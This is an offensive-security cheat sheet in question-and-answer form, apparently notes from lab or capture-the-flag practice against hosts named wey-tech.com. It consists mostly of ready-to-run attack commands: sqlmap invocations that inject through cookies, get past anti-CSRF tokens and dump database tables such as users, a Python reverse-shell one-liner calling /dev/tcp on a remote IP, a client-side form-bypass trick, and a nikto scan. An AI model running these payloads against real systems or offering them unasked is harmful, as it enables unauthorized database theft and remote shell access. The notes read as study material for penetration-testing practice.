 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file and want to peep inside?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```

### In what way can you try to trip up a web form that uses html tags in order to check syntax?
As an example case with `<input ... type='email'>`, you can inspect the tag and change the type to `text` and try submitting a single quote (`'`).

### How do you use sqlmap when the site has an anti-CSRF token mechanism?
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --csrf-url="http://personnel.wey-tech.com/validator.php" --csrf-token=token -v 6
```
If that doesn't work, you may need to use `eval` to write a custom python script.
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --eval "import urllib;page = urllib.urlopen('http://personnel.wey-tech.com/validator.php');token = urllib.quote(str(page.read()).decode('utf-8'));print(token)" -p applicantmail -v 1
```

### What tool helps detect web server versions and misconfigurations?
```
nikto -h http://mail.wey-tech.com
```
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. 
